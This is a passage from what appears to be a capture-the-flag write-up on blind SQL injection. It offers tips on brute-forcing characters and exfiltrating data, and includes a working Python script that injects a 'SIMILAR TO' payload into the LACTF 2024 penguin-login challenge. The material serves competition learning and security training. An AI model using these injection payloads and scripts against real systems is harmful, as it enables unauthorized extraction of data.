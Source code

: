 By automating the process, it's possible to make all possible attempts and eventually, after a few hundred or thousand queries, obtain the entire password.

#### Tips
##### Bruteforce with Criteria
- Don't try to inject all possible 128 ASCII characters, or at least start by trying the characters from the alphabet, numbers, and common symbols.
##### If You Have Time Limits, Make Fewer Requests
- The speed of infrastructure or minute request limits can make the process very slow. Many DBMSs, however, allow you to execute some types of queries that enable you to write binary search-like exfiltration programs. In these cases, string comparison SQL is extremely useful.
##### Multitasking
- Implementing a solution similar to the one just presented can be more challenging than expected for a thousand reasons, including haste and pressure. While trying to optimize the solution, run the stupid one first so you always have a plan B and can exfiltrate some of the information in advance.
##### Try-Catch and Error Handling
- During competitions, a thousand things can go wrong in the infrastructure. It may be that a particular character is not retrievable or that requests occasionally "jam" and time out. Try-catch, `try-except` in Python, allows the payload to continue the attack even in case of error, and pressing `CTRL+C` allows you to move to the next attempt (it was useful for me in a challenge from [HSCTF 2023](https://theromanxpl0.it/ctf_hsctf2023/2023/06/12/flagshop.html)). In general, patch things up if necessary: *no one will judge your code as long as it flags*.

#### Example Challenge: penguin-login LACTF 2024
In this challenge, comments, percent, and the keyword `LIKE` were filtered. PostgreSQL has a command very similar to the blacklisted `LIKE`, namely `SIMILAR TO`. The first script finds the number of characters that make up the flag, and the second one exfiltrates it.

`findnum.py`
```python
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```

